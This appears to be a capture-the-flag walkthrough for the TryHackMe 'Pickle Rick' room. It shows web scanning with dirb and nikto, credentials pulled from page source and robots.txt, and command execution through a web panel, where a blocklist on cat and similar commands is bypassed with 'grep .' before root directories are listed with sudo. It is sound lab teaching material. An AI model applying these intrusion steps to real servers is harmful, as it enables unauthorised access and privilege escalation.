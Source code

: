 # [Pickle Rick](https://tryhackme.com/r/room/picklerick)

* Set the machine IP in an environment variable:
  ```shell
  export MACHINE_IP=x.x.x.x
  ```

**What is the first ingredient that Rick needs?**

* Use [dirb](https://www.kali.org/tools/dirb/) to check for common paths on the webserver:

  ```shell
  dirb http://$MACHINE_IP

  ...
  > DIRECTORY: http://x.x.x.x/assets/
  + http://x.x.x.x/index.html (CODE:200|SIZE:1062)                       
  + http://x.x.x.x/robots.txt (CODE:200|SIZE:17)                         
  + http://x.x.x.x/server-status (CODE:403|SIZE:278)    
  ...
  ```

* Find the username in index.html:

  ```shell
  curl -s http://$MACHINE_IP/index.html | grep Username
  ```

* Find the password in robots.txt:

  ```shell
  curl -s http://$MACHINE_IP/robots.txt
  ```

* Use [nikto](https://www.kali.org/tools/nikto/) to check more stuff: 

  ```shell
  nikto -h $MACHINE_IP

  ...
  /login.php: Admin login page/section found
  ...
  ```

* Go to /login.php
* Execute `ls` in the "Command Panel":

  ```
  Sup3rS3cretPickl3Ingred.txt
  assets
  clue.txt
  denied.php
  index.html
  login.php
  portal.php
  robots.txt
  ```

* If we try to execute `cat`, `head`, `tail`, ... it says those commands are "disabled"
* Try any other alternative, for example `grep . Sup3rS3cretPickl3Ingred.txt` works!
* Execute `grep . clue.txt`:

  ```
  Look around the file system for the other ingredient.
  ```

* Execute `ls` navigating different directories until you find something
* Try `ls -R /home` and `sudo ls -R /root` and once you find the files just execute `grep .` on them!

